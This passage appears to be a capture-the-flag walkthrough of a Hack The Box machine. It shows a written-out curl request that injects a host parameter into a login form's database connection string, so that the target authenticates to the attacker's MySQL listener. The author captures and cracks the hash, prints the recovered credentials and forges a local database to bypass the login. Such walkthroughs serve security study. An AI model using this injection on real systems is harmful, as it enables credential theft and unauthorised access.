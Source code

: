 {{< figure src="__GHOST_URL__/content/images/2019/09/image-33.png" >}}

We can actually modify this request in a ```curl``` command and append a command injection to see if it's vulnerable to this method. We need to create a database running on our machine first. 

```services mysql start``` then we launch ```mariadb``` or whatever you might want to use. We issue ```create database cryptor``` in mariadb to get a database started. We then need to edit the ```50-server.cnf``` file to ensure we allow our database to be seen externally. 

```nano /etc/mysql/mariadb.conf.d/50-server-cnf```

Locate the bind-address and set it to ```0.0.0.0```.

We will use Metasploit to try and capture the request. We will use ```auxiliary/server/capture/mysql```. In this case we will only require the  ```JOHNPWFILE``` option. We want to snag the hash and crack it. We start the listener then craft a ```curl``` command to authenticate.

```
curl -X POST http://10.10.10.129 -b "PHPSESSID=p5g6j9caioo3qf8ian1ku9krmb" -d "username=Love&password=Password&db=cryptor;host=10.10.14.235;port=3306&token=b6feac8f9b4d6ef64c75d160a31d40272d171c4d1fa488c1f02882b6cb51968c&login="
```

We then see our Metasploit listener light up and obtain our hash.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-34.png" >}}

We can now feed this into Hashcat for cracking!

{{< figure src="__GHOST_URL__/content/images/2019/09/image-35.png" caption="Cracking done on a Windows machine." >}}

Now we wait...

{{< figure src="__GHOST_URL__/content/images/2019/09/image-36.png" >}}

We have a password! We now have the username of dbuser and a password of krypton1te. So now we will create a local database on our local machine with the same name as our target, cryptor. In this case, I chose to make the privileges available to only that DB user from the IP with this password.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-37.png" >}}

Now we need understand the database structure of the target machine. So for this we need to do some Wireshark action. We will use the same method as above and craft an injected curl command and see what the wire shows.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-38.png" caption="We get a password back, encrypted it seems." >}}

We see that the call is to a table called 'users'. So now we have a table. We need to figure out what kind of hashing is done on the passwords. A quick copy paste into TunnelsUp gives us an MD5 hash. So now that we have table and column structure, we need to recreate that locally as well. Once that is done, we will call our command injection again via Burpsuite and we should see a valid submission! We have to edit our token and cookie quite a few times until it finally worked for me, but it worked!

{{< figure src="__GHOST_URL__/content/images/2019/09/image-39.png" >}}

We are greeted with the above page. Seemingly encrypts a file type. We have the option of AES-CBC and RC4. RC4 is a Xor algorithm. That means if you can have the following scenarios:

* Plaintext XOR Ciphertext will give us the key.
* Plaintext XOR Key will give us the Ciphertext.
* Ciphertext XOR Key will give us the Plaintext.

Now I'm just going to assume that it's using a static key to do the RC4. To test this we make a file called original.
```